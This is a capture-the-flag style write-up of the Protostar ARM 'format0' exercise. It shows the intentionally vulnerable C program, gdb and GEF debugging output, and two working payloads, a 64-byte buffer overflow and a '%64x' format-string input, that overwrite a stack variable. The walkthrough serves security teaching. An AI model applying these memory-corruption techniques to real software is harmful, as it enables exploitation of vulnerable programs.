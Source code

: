 ## Protostar ARM format0

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);

  if(target == 0xdeadbeef) {
    printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}

```
#### _Let's start_

We start with the challenges related to the [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack). To solve the challenge we have to set the variable `target` to the value `0xdeadbeef`. Let's open `gdb`, set a breakpoint in the `vuln()` function at the address `0x00010478` and run the program using as input a simple string like `aaaaa`.

Before to start with these challenges I recommend to read [this article](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)

```code
i@raspberrypi:~/protostar/format/format0 $ gdb ./format0
....
gef➤  disassemble vuln
Dump of assembler code for function vuln:
   0x00010438 <+0>:	push	{r11, lr}
   0x0001043c <+4>:	add	r11, sp, #4
   0x00010440 <+8>:	sub	sp, sp, #80	; 0x50
   0x00010444 <+12>:	str	r0, [r11, #-80]	; 0xffffffb0
   0x00010448 <+16>:	mov	r3, #0
   0x0001044c <+20>:	str	r3, [r11, #-8]
   0x00010450 <+24>:	sub	r3, r11, #72	; 0x48
   0x00010454 <+28>:	ldr	r1, [r11, #-80]	; 0xffffffb0
   0x00010458 <+32>:	mov	r0, r3
   0x0001045c <+36>:	bl	0x10330 <sprintf@plt>
   0x00010460 <+40>:	ldr	r3, [r11, #-8]
   0x00010464 <+44>:	ldr	r2, [pc, #24]	; 0x10484 <vuln+76>
   0x00010468 <+48>:	cmp	r3, r2
   0x0001046c <+52>:	bne	0x10478 <vuln+64>
   0x00010470 <+56>:	ldr	r0, [pc, #16]	; 0x10488 <vuln+80>
   0x00010474 <+60>:	bl	0x1030c <puts@plt>
   0x00010478 <+64>:	nop			; (mov r0, r0)
   0x0001047c <+68>:	sub	sp, r11, #4
   0x00010480 <+72>:	pop	{r11, pc}
   0x00010484 <+76>:	cdple	14, 10, cr11, cr13, cr15, {7}
   0x00010488 <+80>:	andeq	r0, r1, r4, lsr r5
End of assembler dump.
gef➤  b *0x00010478
Breakpoint 1 at 0x10478: file format0.c, line 18.
gef➤  r aaaaa
Starting program: /home/pi/protostar/format/format0/format0 aaaaa

Breakpoint 1, vuln (string=0x7efff6e2 "aaaaa") at format0.c:18
18	}
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x5       
$r1  : 0x7efff6e7  →  0x45485300
$r2  : 0xdeadbeef
$r3  : 0x0       
$r4  : 0x0       
$r5  : 0x000104c4  →  <__libc_csu_init+0> push {r4,  r5,  r6,  r7,  r8,  r9,  r10,  lr}
$r6  : 0x00010348  →  <_start+0> mov r11,  #0
$r7  : 0x0       
$r8  : 0x0       
$r9  : 0x0       
$r10 : 0x76fff000  →  0x00030f44
$r11 : 0x7efff404  →  0x000104b4  →  <main+40> mov r3,  #0
$r12 : 0x25      
$sp  : 0x7efff3b0  →  0x00000004
$lr  : 0x00010460  →  <vuln+40> ldr r3,  [r11,  #-8]
$pc  : 0x00010478  →  <vuln+64> nop ; (mov r0,  r0)
$cpsr: [negative zero carry overflow interrupt fast thumb]
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x7efff3b0│+0x0000: 0x00000004	 ← $sp
0x7efff3b4│+0x0004: 0x7efff6e2  →  "aaaaa"
0x7efff3b8│+0x0008: 0x76fffc70  →  0x76ffd000  →  0x464c457f
0x7efff3bc│+0x000c: "aaaaa"
0x7efff3c0│+0x0010: 0x7eff0061  →  0x00000000
0x7efff3c4│+0x0014: 0x00000000
0x7efff3c8│+0x0018: 0x00000000
0x7efff3cc│+0x001c: 0x00000000
───────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x1046c <vuln+52>        bne    0x10478 <vuln+64>
      0x10470 <vuln+56>        ldr    r0,  [pc,  #16]	; 0x10488 <vuln+80>
      0x10474 <vuln+60>        bl     0x1030c <puts@plt>
 →    0x10478 <vuln+64>        nop    ; (mov r0,  r0)
      0x1047c <vuln+68>        sub    sp,  r11,  #4
      0x10480 <vuln+72>        pop    {r11,  pc}
      0x10484 <vuln+76>        cdple  14,  10,  cr11,  cr13,  cr15,  {7}
      0x10488 <vuln+80>        andeq  r0,  r1,  r4,  lsr r5
      0x1048c <main+0>         push   {r11,  lr}
────────────────────────────────────────────────────────────────────────────────────────── source:format0.c+18 ────
     13	   sprintf(buffer, string);
     14	 
     15	   if(target == 0xdeadbeef) {
     16	     printf("you have hit the target correctly :)\n");
     17	   }
 →   18	 }
     19	 
     20	 int main(int argc, char **argv)
     21	 {
     22	   vuln(argv[1]);
     23	 }
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "format0", stopped 0x10478 in vuln (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x10478 → vuln(string=0x7efff6e2 "aaaaa")
[#1] 0x104b4 → main(argc=0x2, argv=0x7efff564)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  print target
$1 = 0x0
gef➤  print *target
Cannot access memory at address 0x0
gef➤  print &target
$2 = (volatile int *) 0x7efff3fc
gef➤  print &buffer
$3 = (char (*)[64]) 0x7efff3bc
gef➤  print (0x7efff3fc-0x7efff3bc)
$4 = 0x40
gef➤  
```

As we can see the variable `target` is allocated just after the space allocated for the `buffer` variable `(0x40h -> 64 bytes)`. We can solve this challenge using a simple buffer overflow due to the unchecked size of our input.
If we use as user input a string long `64 bytes` and the value `0xdeadbeef` (Little Endian Order) we should be able to solve the challenge.

Let's try
```code
pi@raspberrypi:~/protostar/format/format0 $ ./format0 $(python -c "print 'A'* 64 + '\xef\xbe\xad\xde'")
you have hit the target correctly :)
```

#### _What about the format string?!_

A format string vulnerability allows an attacker to write bytes on the stack. In order to write 64 bytes on the stack we can use `%64x` which allows us to write 64 bytes on the stack and write, as 65th bytes, the value `\xef\xbe\xad\xde` in order to have `target` = `0xdeadbeef`.

```code
pi@raspberrypi:~/protostar/format/format0 $ ./format0 $(python -c "print '%64x\xef\xbe\xad\xde'")
you have hit the target correctly :)
```

__*Done :)*__
